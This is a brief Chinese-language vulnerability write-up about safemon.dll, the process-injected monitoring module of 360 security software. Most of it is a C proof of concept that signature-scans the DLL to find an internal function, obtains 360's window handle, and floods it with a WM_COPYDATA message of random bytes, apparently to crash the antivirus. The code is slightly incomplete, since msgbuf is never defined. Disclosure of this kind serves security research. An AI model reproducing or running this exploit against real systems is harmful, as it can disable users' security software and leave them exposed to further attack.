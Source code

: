 



版本号

![image-20230724214527581](img/image-20230724214527581.png)





漏洞文件: safemon.dll

文件功能: 全局注入到所有进程,监控进程的创建,监控是否会对浏览器做出恶意的行为





safemon.dll互分布到每一个进程

同时和360进行一个通信,如果safemon.dll出现问题,也会导致360的崩溃



```c
#include<stdio.h>
#include<windows.h>

int main()
{
    HMODULE h360 =GetModuleHandle(TEXT("safemon.dll"));
    int i = 0;
    if(h360)
    {
        for (i = 0; i<0x30000; i++)//作比较
        {
            if (memcmp((BYTE *)(h360+i), "\x83\xEC\x10\x56\x8D\x44\x24\x04\x50",9)==0)
            {
                     break;
            }
        }
        if (i==0x30000)
        {
            return;
        }
        FARPROC funcGet360HWND = (FARPROC)(h360+i);
        HWND hWnd = (HWND)funcGet360HWND();
        COPYDATASTRUCT cpdata;
        cpdata.dwData = 0x4d47534d;
        cpdata.cbData = 0x1000;
        cpdata.lpData = msgbuf;  //长度0x1000字节的随即数据，其中不能有连续\x00\x00
        SendMessage(hWnd, WM_COPYDATA, NULL,(LPARAM)&cpdata); 
    }
}
```

